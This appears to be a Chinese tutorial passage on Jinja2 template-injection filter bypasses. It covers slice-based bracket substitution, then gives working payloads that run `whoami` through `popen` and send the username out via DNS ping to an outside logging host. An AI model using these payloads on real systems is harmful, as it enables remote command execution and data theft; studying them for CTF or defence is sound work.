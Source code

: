 #### 过滤`[]`

*[这里](#过滤[])

除了这里的之外，在取字典里的数据的时候，也可以根据上述的结论，用`.`代替`[]`也可以`{{ {"a": 1}.a }}`

如果是要构造一个列表，我们一般是给最外面加个 `[]` 就好了。在中括号被过滤的情况下，则可以使用 `slice` 来替代。例如 `"1"|slice(1)|list` 与 `[['1']]` 是等价的。

>`slice(value,slices,fill_width=None)`：切片,接受一个可迭代对象,返回slices指定份数,不足n个使用fill_width指定的对象进行填充
>
>- slice() 过滤器可以切割迭代器(比如列表),返回二维列表。
>- 传入切割份数量(这里是3),可以将迭代器均分为多份。
>- 在循环中可以迭代这些份,实现分列展示等效果。
>- 第二个参数用于填充最后一列缺失数据。
>
>```jinja2
>{% set my_list = [1, 2, 3, 4, 5] %}
>{{ my_list|slice(4)|list }}
># [[1, 2], [3], [4], [5]]
>
>{% set my_list = [1, 2, 3, 4, 5] %}
>{{ my_list|slice(3)|list }}
># [[1, 2], [3, 4], [5]]
>
>{{ 'abcdefghijklmn'|slice(6)|list }}
># [['a', 'b', 'c'], ['d', 'e', 'f'], ['g', 'h'], ['i', 'j'], ['k', 'l'], ['m', 'n']]
>
>{{ 'abcdefghijklmn'|slice(20)|list }}
># [['a'], ['b'], ['c'], ['d'], ['e'], ['f'], ['g'], ['h'], ['i'], ['j'], ['k'], ['l'], ['m'], ['n'], [], [], [], [], [], []]
>
>{{ 'abcdefghijklmn'|slice(20) }}
># <generator object sync_do_slice at 0x000001CD94C3B7B0>
>```

####  过滤 `{{ }}`

利用 `{% %}`。

首先是`{% macro %}`

`{% print(...) %}`：

```
{% print(''.__class__.__mro__[-1].__subclasses__()[135].__init__.__globals__['popen']("whoami")).read() %}
```

还有 `{% if %}`、`{% set %}`、`{% for %}` ... 都是可以执行命令的，只是无回显。如果非要有回显，可以外带数据，或者盲注，或者直接反弹shell

外带数据：

```jinja2
 {% for subclass in dict.mro()[-1].__subclasses__()%}
    {% if subclass.__name__ == '_wrap_close' %}
        {%set a = subclass.__init__.__globals__.popen('ping %USERNAME%.0JV612R1Y5.dns.xms.la').read()%}
    {% endif %}
 {% endfor %}
```
